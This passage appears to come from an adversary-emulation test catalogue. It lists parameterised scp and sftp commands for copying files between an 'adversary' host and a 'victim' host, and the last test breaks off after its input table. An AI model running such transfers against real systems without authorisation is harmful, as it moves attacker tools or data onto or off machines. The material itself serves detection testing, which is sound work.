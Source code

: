 #### Attack Commands: Run with `sh`!

```sh
scp #{username}@#{remote_host}:#{remote_file} #{local_path}
```

<br/>
<br/>

## Atomic Test #5 - sftp remote file copy (push)

Utilize sftp to perform a remote file copy (push)

**Supported Platforms:** Linux, macOS

**auto_generated_guid:** f564c297-7978-4aa9-b37a-d90477feea4e

#### Inputs:

| Name        | Description                                 | Type   | Default Value       |
| ----------- | ------------------------------------------- | ------ | ------------------- |
| remote_path | Remote path to receive sftp                 | path   | /tmp/victim-files/  |
| local_file  | Path of file to copy                        | path   | /tmp/adversary-sftp |
| remote_host | Remote host to copy toward                  | string | victim-host         |
| username    | User account to authenticate on remote host | string | victim              |

#### Attack Commands: Run with `sh`!

```sh
sftp #{username}@#{remote_host}:#{remote_path} <<< $'put #{local_file}'
```

<br/>
<br/>

## Atomic Test #6 - sftp remote file copy (pull)

Utilize sftp to perform a remote file copy (pull)

**Supported Platforms:** Linux, macOS

**auto_generated_guid:** 0139dba1-f391-405e-a4f5-f3989f2c88ef

#### Inputs:

| Name        | Description                                 | Type   | Default Value       |
| ----------- | ------------------------------------------- | ------ | ------------------- |
| remote_host | Remote host to copy from                    | string | adversary-host      |
| local_path  | Local path to receive sftp                  | path   | /tmp/victim-files/  |
| remote_file | Path of file to copy                        | path   | /tmp/adversary-sftp |
| username    | User account to authenticate on remote host | string | adversary           |
